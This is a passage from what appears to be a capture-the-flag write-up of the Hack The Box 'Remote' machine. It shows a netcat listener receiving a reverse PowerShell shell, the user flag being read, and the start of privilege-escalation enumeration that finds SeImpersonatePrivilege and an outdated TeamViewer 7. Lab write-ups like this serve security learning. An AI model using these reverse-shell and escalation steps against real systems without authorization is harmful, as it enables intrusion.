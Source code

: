 We get a shell and we retrieve the user flag.

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.180] 49735
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
{% endhighlight %}

{% highlight shell %}
PS C:\Users\Public\Desktop> dir


    Directory: C:\Users\Public\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/20/2020   2:14 AM           1191 TeamViewer 7.lnk                                                      
-ar---         1/4/2025   1:06 AM             34 user.txt                                                              


PS C:\Users\Public\Desktop> type user.txt
e07b4e**************************
{% endhighlight %}

## Privilege escalation
---

While getting the flag, I noticed that we have a shortcut to an outdated <mark>TeamViewer 7</mark>. Looking for a vulnerability in TeamViewer could be a possible way forward, but before we decide to go that way—let’s enumerate.

### Enumeration

We land on a user with <mark>SeImpersonatePrivilege</mark>.

{% highlight shell %}
PS C:\Users\Public\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
{% endhighlight %}
